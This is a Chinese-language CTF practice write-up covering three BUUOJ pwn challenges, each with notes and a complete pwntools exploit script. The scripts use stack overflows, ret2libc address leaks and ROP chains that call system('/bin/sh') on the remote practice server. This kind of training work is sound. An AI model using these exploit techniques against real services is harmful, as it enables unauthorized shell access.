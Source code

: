 ```yaml
---
title: 暑期第一周刷题
date: 2023-07-13 20:14:37
tags:
---
```

## get_started_3dsctf_2016

一开始以为是ret2text板子题（那么大个`get_flag`函数）。照板子写，打远程，没回显，报错。检查发现函数的返回方式不是`leave retn`而是`retn`，遂将fake_ebp的padding去除。没打通。翻网上的题解，发现有师傅提到这题的远程只有程序能正常退出的时候才有回显（确实是老题了，这几年的新题不会这么离谱😅）。遂将`get_flag`函数的返回地址设置为`elf.sym["exit"]`。`get_flag`函数开头有一个if判断：

![a](2023-07-06-23-06-37-image.png)

原始思路是直接ret2text的时候越过if判断，注意到汇编中此函数在`retn`前有`pop esi`，函数开头有`push esi`，想法是把栈构造成下面这样:

| stack_overflow_padding  0x38             |
| ---------------------------------------- |
| ret2txet_addr(after elf.sym["get_flag"]) |
| fake_pop_esi                             |
| elf.sym["exit"]                          |

不知为何打不通。老老实实过if判断：

| stack_overflow_padding  0x38 |
| ---------------------------- |
| elf.sym["get_flag"]          |
| elf.sym["exit"]              |
| get_flag arg1 0x308CD64F     |
| get_flag arg2 0x195719D1     |

最后exp如下：

```python
from pwn import *

context.log_level = "debug"
context.arch = "i386"
elf = ELF("./get_started_3dsctf_2016")
# p = process("./get_started_3dsctf_2016")
p = remote("node4.buuoj.cn", 27999)
sleep(1)
p.send(
    b"a" * 0x38
    + p32(elf.sym["get_flag"])
    + p32(elf.sym["exit"])
    + p32(0x308CD64F)
    + p32(0x195719D1)
)
p.interactive()
```

## [OGeek2019]babyrop

32位ret2libc，`write`泄露，这题因为`send`和`sendline`的原因卡了好久，下次写脚本准备先无脑上`sendline`了

脚本如下：

```python
from pwn import *

context.log_level = "debug"
context.arch = "i386"
# p = process("./pwn")
p = remote("node4.buuoj.cn", 26926)
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
p.sendline(b"\x00" + b"\xff" * 7)
p.recvuntil(b"Correct\n")
p.sendline(
    b"a" * (0xE7 + 4)
    + p32(elf.plt["write"])
    + p32(0x08048825)  # main
    + p32(1)
    + p32(elf.got["write"])
    + p32(4)
)
write_addr = u32(p.recv(4))
libc_base = write_addr - libc.sym["write"]
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + libc.search(b"/bin/sh").__next__()
p.sendline(b"\x00" + b"\xff" * 7)
p.recvuntil(b"Correct\n")
p.sendline(b"a" * (0xE7 + 4) + p32(system_addr) + p32(0xDEADBEEF) + p32(binsh_addr))
p.interactive()
```

## [HarekazeCTF2019]baby_rop

64位rop板子题。注意程序里有`/bin/sh`字符串，可以在ida的strings页面找到。远程flag的位置很怪啊，学习了一下`find`命令。不知道为什么远程交互的时候过没几秒没操作就会eof

exp如下：

```python
from pwn import *

context.log_level = "debug"
context.arch = "amd64"
# p = process("./babyrop")
p = remote("node4.buuoj.cn", 26515)
elf = ELF("./babyrop")
pop_rdi = 0x400683
p.sendlineafter(
    b"What's your name? ",
    b"A" * 0x10
    + b"B" * 8
    + p64(pop_rdi)
    + p64(elf.sym["binsh"])
    + p64(elf.plt["system"]),
)
p.interactive()

```
